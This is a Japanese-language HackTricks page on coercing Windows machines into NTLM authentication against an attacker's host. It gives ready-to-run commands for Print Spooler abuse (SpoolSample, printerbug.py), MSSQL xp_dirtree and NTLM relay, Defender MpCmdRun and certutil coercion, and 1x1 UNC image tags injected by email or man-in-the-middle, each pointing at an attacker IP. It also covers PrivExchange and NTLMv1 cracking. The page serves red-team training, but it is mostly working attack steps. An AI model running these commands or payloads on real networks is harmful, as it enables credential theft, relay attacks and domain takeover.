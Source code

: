 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) は、**3rd party** 依存関係を避けるために MIDL コンパイラを使用して C# でコーディングされた **リモート認証トリガー** の **コレクション** です。

## Spooler Service Abuse

_**Print Spooler**_ サービスが **有効** の場合、既知の AD 認証情報を使用してドメインコントローラーの印刷サーバーに新しい印刷ジョブの **更新** を **要求** し、**通知を任意のシステムに送信するように指示** できます。\
プリンターが任意のシステムに通知を送信する際には、その **システムに対して認証する必要があります**。したがって、攻撃者は _**Print Spooler**_ サービスを任意のシステムに対して認証させることができ、その認証では **コンピュータアカウント** を **使用します**。

### Finding Windows Servers on the domain

PowerShell を使用して、Windows ボックスのリストを取得します。サーバーは通常優先されるため、そこに焦点を当てましょう：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spoolerサービスのリスニングを確認する

少し修正された@mysmartlogin（Vincent Le Toux）の[SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)を使用して、Spoolerサービスがリスニングしているか確認します：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux上でrpcdump.pyを使用し、MS-RPRNプロトコルを探すこともできます。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 任意のホストに対してサービスに認証を要求する

[**ここからSpoolSampleをコンパイルできます**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
または、Linuxを使用している場合は、[**3xocyteのdementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)または[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)を使用してください。
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegationとの組み合わせ

攻撃者がすでに[Unconstrained Delegation](unconstrained-delegation.md)を持つコンピュータを侵害している場合、攻撃者は**プリンタをこのコンピュータに対して認証させる**ことができます。制約のない委任のため、**プリンタのコンピュータアカウントのTGT**は、制約のない委任を持つコンピュータの**メモリ**に**保存されます**。攻撃者はすでにこのホストを侵害しているため、**このチケットを取得し**、それを悪用することができます（[Pass the Ticket](pass-the-ticket.md)）。

## RCP強制認証

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻撃は、**Exchange Serverの`PushSubscription`機能**に見つかった欠陥の結果です。この機能により、メールボックスを持つ任意のドメインユーザーがHTTP経由で任意のクライアント提供ホストに対してExchangeサーバーを強制的に認証させることができます。

デフォルトでは、**ExchangeサービスはSYSTEMとして実行され**、過剰な特権が与えられています（具体的には、**2019年以前の累積更新に対するWriteDacl特権を持っています**）。この欠陥は、**LDAPへの情報の中継を可能にし、その後ドメインNTDSデータベースを抽出する**ために悪用できます。LDAPへの中継が不可能な場合でも、この欠陥はドメイン内の他のホストに対して中継および認証するために使用できます。この攻撃の成功した悪用は、認証された任意のドメインユーザーアカウントでドメイン管理者への即時アクセスを許可します。

## Windows内部

すでにWindowsマシン内にいる場合、特権アカウントを使用してサーバーに接続するようWindowsを強制することができます：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
または、この別の技術を使用します: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin（Microsoft署名のバイナリ）を使用してNTLM認証を強制することが可能です:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTMLインジェクション

### メール経由

もしあなたが侵入したいマシンにログインしているユーザーの**メールアドレス**を知っているなら、**1x1画像**を含む**メール**を送ることができます。
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
そして、彼がそれを開くと、認証を試みるでしょう。

### MitM

コンピュータに対してMitM攻撃を実行し、彼が視覚化するページにHTMLを注入できる場合、次のような画像をページに注入してみることができます：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1のクラッキング

[NTLMv1チャレンジをキャプチャできる場合は、ここでそれらをクラッキングする方法を読んでください](../ntlm/#ntlmv1-attack)。\
_ NTLMv1をクラッキングするには、Responderチャレンジを「1122334455667788」に設定する必要があることを忘れないでください。_

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

